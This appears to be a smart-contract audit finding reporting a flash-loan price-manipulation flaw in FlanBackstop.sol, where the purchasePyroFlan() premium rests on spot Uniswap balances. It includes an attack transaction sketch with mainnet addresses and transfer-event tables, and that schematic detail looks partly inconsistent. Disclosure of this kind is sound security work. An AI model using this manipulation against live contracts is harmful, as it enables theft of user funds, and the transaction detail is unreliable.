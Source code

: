 ## Source Code
https://github.com/code-423n4/2022-01-behodler/blob/cedb81273f6daf2ee39ec765eef5ba74f21b2c6e/contracts/FlanBackstop.sol#L83

The comment on line 54 of FlanBackstop.sol states "the opportunity for price manipulation through flash loans exists", and I agree that this is a serious risk. While the acceptableHighestPrice variable attempts to limit the maximum price change of the flan-stablecoin LP, a flashloan sandwich attack can still occur within this limit and make up for the limitation with larger volumes or multiple flashloan attacks. Flashloan price manipulation is the cause for many major hacks, including bZx, Harvest, and others.

## POMA
Line 83 of FlanBackstop.sol calculates the price of flan to stablecoin in the Uniswap pool based on the balances at a single point in time. Pool balances at a single point in time can be manipulated with flash loans, which can skew the numbers to the extreme. The single data point of LP balances is used to calculate the growth variable in line 103, and the growth variable influences the quantity of pyroflan a user receives in the premium calculation on line 108.

uint256 priceBefore = (balanceOfFlanBefore * getMagnitude(stablecoin)) / balanceOfStableBefore;
uint256 growth = ((priceBefore - tiltedPrice) * 100) / priceBefore;
uint256 premium = (flanToMint * (growth / 2)) / 100;
Problems can occur when the volumes that the purchasePyroFlan() function sends to the Uniswap pool are large compared to the pool's liquidity volume, or if the Uniswap pool price is temporarily tilted with a flashloan (or a whale). Because this function purposefully changes the exchange rate of the LP, by transferring tokens to the LP in a 2-to-1 ratio, a large volume could caught a large price impact in the LP. The code attempts to protect against this manipulation in line 102 with a require statement, but this can be worked around by reducing the volume per flashloan and repeating the attack multiple times. A user can manipulate the LP, especially when the LP is new with low liquidity, in order to achieve large amounts of flan and pyroflan.

## Attack Transaction
```
// assign values
operator = 0x85beF3a368849FC1ff6820af7382372e30830986 (msg.sender)
token1 = 0xa0b86991c6218b36c1d19d4a2e9eb0ce3606eb48 (USDC)
token2 = 0xc02aaa39b223fe8d0a0e5c4f27ead9083c756cc2 (WETH)
amount0Out = 10e8
amount1Out = 0
to = operator
token = token2
inAmount = amount0Out
amountOut = 0
amountInMax = amount0Out
pairs = [0xb4e16d0168e52d35cacd2c6185b44281ec28c9dc (UniSwapV2)]
tokens = [USDC]
deadline = block.timestamp + 7200

// execution path
UniSwapV2.swap(amount0Out, amount1Out, to, bytes(0))
FlanBackstop.purchasePyroFlan(address stablecoin, uint256 amount)
```

## Transfer Event
### Variant 1 (single transaction)
```
block_hash, transaction_hash, log_index, token_address, from_address, to_address, value
block#1, transaction#1, log#1, token1, operator, UniSwapV2, 10e8
block#1, transaction#1, log#2, token2, UniSwapV2, operator, 71777521544720215
block#1, transaction#1, log#3, token2, operator, MarginRouter, 71777521544720215
block#1, transaction#1, log#4, token1, operator, MarginRouter, 145927841345707238222094
block#1, transaction#1, log#5, token2, operator, MarginRouter, 71777521544720215
block#1, transaction#1, log#6, token1, operator, MarginRouter, 145927841345707238222094
```


### Variant 2 (separate transaction, same block)
1 POMA + 2 Arbitrage

```
block_hash, transaction_hash, log_index, token_address, from_address, to_address, value
block#1, transaction#1, log#1, token1, operator, UniSwapV2, 10e8
block#1, transaction#1, log#2, token2, UniSwapV2, operator, 71777521544720215
block#1, transaction#2, log#1, token2, operator, MarginRouter, 71777521544720215
block#1, transaction#2, log#2, token1, operator, MarginRouter, 145927841345707238222094
block#1, transaction#3, log#1, token2, operator, MarginRouter, 71777521544720215
block#1, transaction#3, log#2, token1, operator, MarginRouter, 145927841345707238222094
```

### Variant 3 (separate transaction, separate block)
1 POMA + 2 Arbitrage

```
block_hash, transaction_hash, log_index, token_address, from_address, to_address, value
block#1, transaction#1, log#1, token1, operator, UniSwapV2, 10e8
block#1, transaction#1, log#2, token2, UniSwapV2, operator, 71777521544720215
block#2, transaction#2, log#1, token2, operator, MarginRouter, 71777521544720215
block#2, transaction#2, log#2, token1, operator, MarginRouter, 145927841345707238222094
block#2, transaction#3, log#1, token2, operator, MarginRouter, 71777521544720215
block#2, transaction#3, log#2, token1, operator, MarginRouter, 145927841345707238222094
```